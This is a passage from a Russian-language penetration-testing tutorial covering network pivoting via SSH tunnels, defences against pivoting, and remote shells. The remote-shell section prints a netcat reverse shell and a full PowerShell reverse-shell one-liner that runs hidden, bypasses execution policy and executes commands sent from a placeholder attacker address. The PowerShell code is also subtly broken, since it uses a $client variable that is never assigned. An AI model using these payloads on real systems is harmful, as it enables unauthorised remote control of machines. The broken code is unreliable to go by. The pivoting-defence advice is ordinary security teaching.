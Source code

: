 - **SSH:** Использование SSH-туннелей для перенаправления трафика.
  - Пример создания SSH-туннеля для pivoting:
    ```bash
    ssh -L 8080:target_host:80 user@pivot_host
    ```

### 3.4 Примеры использования Pivoting

- **Доступ к внутренним ресурсам:** Использование скомпрометированной машины для доступа к внутренним ресурсам, таким как базы данных или файловые серверы.
- **Расширение атаки:** Использование pivoting для распространения атаки на другие машины в сети.
- **Сбор информации:** Использование pivoting для сбора информации о внутренней сети и её структуре.

### 3.5 Защита от Pivoting

- **Сегментация сети:** Разделение сети на сегменты с ограничением доступа между ними.
- **Мониторинг трафика:** Использование систем обнаружения вторжений (IDS) для мониторинга аномального трафика.
- **Журналирование и аудит:** Ведение журналов и регулярный аудит сетевой активности для выявления подозрительных действий.

---

## 4. Remote Shell

### 4.1 Введение в Remote Shell

Remote Shell позволяет удалённо управлять системой через командную строку. Это полезно для администрирования и выполнения команд на удалённых системах. Remote Shell может быть реализован с использованием различных инструментов и протоколов, таких как Netcat, PowerShell и SSH.

### 4.2 Инструменты для Remote Shell

- **Netcat:** Простой инструмент для создания удалённого шелла.
  - Пример команды для создания обратного шелла:
    ```bash
    nc -e /bin/bash your_ip 4444
    ```
  В этом примере Netcat используется для создания обратного шелла, который подключается к указанному IP-адресу и порту.

- **PowerShell:** Мощный инструмент для управления Windows-системами.
  - Пример команды для создания обратного шелла с использованием PowerShell:
    ```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command "New-Object System.Net.Sockets.TCPClient('your_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
    ```
  В этом примере PowerShell используется для создания обратного шелла, который подключается к указанному IP-адресу и порту.
